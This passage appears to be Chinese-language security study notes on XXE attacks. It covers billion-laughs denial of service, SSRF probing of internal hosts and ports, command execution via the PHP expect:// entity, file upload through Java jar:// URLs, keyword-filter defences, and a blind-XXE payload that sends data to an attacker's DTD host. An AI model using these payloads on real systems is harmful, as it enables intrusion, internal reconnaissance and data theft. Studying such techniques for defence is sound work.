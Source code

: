 * 上面的payload被称为billionlaughs攻击，简单分析可以得出，xml解析过程中递归产生了上亿个lol字符，而许多的xml解析器在解析xml文档时倾向于将它的整个结构保存在内存中，这样就会占用大量内存资源，造成拒绝服务攻击

##### SSRF

##### 内网探测

* 内网存活主机探测
  * 读取目标主机上一些网络相关的敏感文件
  * 通过不同的协议向内网其他主机发起请求，根据返回内容判断主机存活情况
* 内网端口探测
  * 与上面类似

##### 利用内网脆弱的SMTP进行钓鱼

##### 命令执行

* 利用的情况较为苛刻，基本上是针对php的拓展协议expect

```xml
<!DOCTYPE root[<!ENTITY cmd SYSTEM "expect://id">]>
<dir>
<file>&cmd;</file>
</dir>
```

##### 文件上传

* 这里主要是利用了java jar://协议，该协议可以从远程获取jar文件，并将其中的内容进行解压。格式jar:{url}!{path} eg jar:http://host/application.jar!/file/within/the/zip
* jar协议处理文件过程
  * 下载jar/zip文件到临时文件
  * 提取出指定文件
  * 删除临时文件
* 上传文件有两个关键问题
  * 如何知道上传文件名：通过报错形式jar:http://localhost:9999/jar.zip!/1.jsp，如果1.php不在jar.zip包里，可以通过报错获取文件路径；接下来要获取文件名可能要通过其他漏洞或者根据具体的命名规则爆破
  * 如何延长临时文件留存时间：
    * 通过延长文件传输时间：
    * 竞争条件等

### 防御

* 禁止引用外部实体，每种语言和解析库有各自的方法，这里不再赘述
* 过滤敏感关键词或敏感字符：<!DOCTYPE   <!ENTITY    SYSTEM  PUBLIC等

### 突破

#### 无直接回显

* 构造携带想要读取的参数向恶意主机发起请求：

```xml
<!DOCTYPE root SYSTEM "dtd url">
<root>&send;</root>
```

